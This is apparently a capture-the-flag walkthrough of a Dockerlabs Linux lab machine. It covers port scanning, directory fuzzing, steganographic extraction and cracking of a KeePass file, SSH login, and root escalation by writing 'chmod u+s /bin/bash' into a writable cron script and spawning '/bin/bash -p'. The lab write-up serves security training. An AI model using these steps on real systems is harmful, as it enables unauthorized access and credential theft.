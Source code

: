 ```yaml
---
date: 2024-09-21
categories: [Linux, Medium]
---
```


![dockerlabs](https://github.com/user-attachments/assets/b3d3aade-08ea-4beb-8df9-716546c86b98)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [El pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)         | [Dockerlabs](https://dockerlabs.es/)     | Medium           | Linux   |

---









- I start with a scan of the open ports
  
  ```bash
  nmap -p- -vvv --min-rate 5000 -Pn -sS 172.17.0.2 -oG scan
  ```
  
  ![Untitled](https://github.com/user-attachments/assets/0aec04f2-d4fa-4310-9341-d62b813bfcf9)


- Scanning open ports

  ```bash
  nmap -p22,80 -sCV 172.17.0.2 -oN ports
  ```
  
  ![Untitled 1](https://github.com/user-attachments/assets/6256a6a7-661a-4b7e-87e2-00da609dd990)


- I access to the website

  ![Untitled 2](https://github.com/user-attachments/assets/91e182c6-ebbc-4e77-91cf-6fcf2dc21741)


- I will perform fuzzing to try to find directories

  ```bash
  gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlist/dirbuster/directory-list-2.3-medium.txt -t 300
  ```
  
  ![Untitled 3](https://github.com/user-attachments/assets/f67b67c6-a506-4931-8f29-d739d82d405c)


- Since I do not find anything relevant, I will perform fuzzing to find files

  ```bash
  gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlist/dirbuster/directory-list-2.3-medium.txt -t 500 -x .php,.js,.txt,.html,.py,.sh
  ```
  
  ![Untitled 4](https://github.com/user-attachments/assets/6999b06a-f351-4cce-8feb-c3ace4cdb5b7)
  

- I access the website penguin.html

  ![Untitled 5](https://github.com/user-attachments/assets/10ca605a-6485-420b-8a52-42655c85500d)


- I download the image and look for hidden chains or files

  ```bash
  strings penguin.jpg
  stegseek penguin.jpg 
  ```
  
  ![Untitled 6](https://github.com/user-attachments/assets/64bf0fb6-11c4-45b6-b099-29da19948f10)


- I find a file with the extension kdbx. I change its name, I get its hash and I try to get its password

  ```bash
  mv  penguin.jpg.out  penguin.kdbx
  keepass2john penguin.kdbx > hash
  john --wordlist=/usr/share/wordlist/rockyou.txt hash
  ```
  
  ![Untitled 7](https://github.com/user-attachments/assets/6a7b8f9b-9e4a-4a03-add1-441ef0aebcb2)


- I use the password found to see the content of the file
  
  ![Untitled 8](https://github.com/user-attachments/assets/0192e806-efaa-4beb-b14f-5f4d0fcf37f1)


- I find a username and password. I tried to log in with ssh

  ![Untitled 9](https://github.com/user-attachments/assets/462d0684-c2dd-4105-a60c-7a6839fa4dd5)


- Once inside I find two files. I list the processes that are running on the system
  
  ```bash
  ps -aux
  ```
  
  ![Untitled 10](https://github.com/user-attachments/assets/457e32eb-4b9f-4f55-b6ce-986264e4fc20)
  
  
  ![Untitled 11](https://github.com/user-attachments/assets/3921830a-e229-47c1-8a11-45c3f964ec9e)
  
  
  ![Untitled 12](https://github.com/user-attachments/assets/5d3ac9a8-498f-4d30-8a8d-01dab8662dd9)


- I observe that the script is executed periodically and that I have write permission on it
- I add a command to be able to run as root
  
  ```bash
  nano script.sh
  
  chmod u+s /bin/bash
  ```
  
  ![Untitled 13](https://github.com/user-attachments/assets/b71d9e9c-d9f5-4884-8c05-2cd3888c3470)
  

- I see that the script has been executed and now I can spawn a terminal as root
  
  ```bash
  /bin/bash -p
  ```
  ![Untitled 14](https://github.com/user-attachments/assets/9f19662b-dc4c-42ce-ba98-2bdcfd1f5c84)
